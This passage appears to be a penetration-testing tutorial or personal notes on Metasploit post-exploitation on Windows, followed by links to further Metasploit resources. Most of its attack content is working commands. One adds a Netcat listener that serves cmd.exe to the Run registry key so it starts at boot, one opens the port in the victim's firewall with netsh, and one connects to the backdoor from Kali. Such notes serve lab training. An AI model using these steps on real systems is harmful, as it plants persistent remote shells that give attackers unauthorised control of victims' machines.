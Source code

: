 - Set Netcat to start at boot: ~
```bash
reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v nc
-d 'C:\windows\system32\nc.exe -Ldp 1000 -e cmd.exe'
```

> 💡 [[Setting nc to startup registry command breakdown]] 💡

![[Pasted image 20231116022340.png]]

- Run the first command again to see if NC was added. 
```bash
reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run
```

![[Pasted image 20231116022446.png]]

- To enable this through the compromised machines firewall, run a remote shell and type: -
```bash
netsh firewall add portopening TCP 1000 "Service Firewall" ENABLE ALL
```

> 💡 [[netsh command breakdown.]] 💡

![[Pasted image 20231116022624.png]]

- Now that everything is set up, lets see if we can connect via netcat reverse shell
- Reboot the victims PC and allow it to start up again ( This may take a few minutes )
- Exit out of meterpreter and Metasploit framework 

- When the ever is rebooted run the following from a Kali Linux Terminal: - 
```bash
nc -v 192.168.10.1 1000
```

![[Pasted image 20231116024914.png]]

For Reference: ~ [Link](https://ptestmethod.readthedocs.io/en/latest/MetasploitFundamentals.html)

#### MORE METASPLOIT
[Windows Post Gather Modules](https://www.offensive-security.com/metasploit-unleashed/windows-post-gather-modules/)

[Metasploit Introduction](https://www.tutorialspoint.com/metasploit/metasploit_introduction.htm)

[Metasploit for beginners](https://jonathansblog.co.uk/metasploit-tutorial-for-beginners)

[post-exploitation-using-wmic-system-command](https://www.hackingarticles.in/post-exploitation-using-wmic-system-command/)

[Metasploit Fundamentals](https://ptestmethod.readthedocs.io/en/latest/MetasploitFundamentals.html)

[How to make meterpreter Persistent](https://www.hackers-arise.com/how-to-make-the-meterpreter-persistent)

[Metasploit for pentester sessions](https://www.hackingarticles.in/metasploit-for-pentester-sessions/)
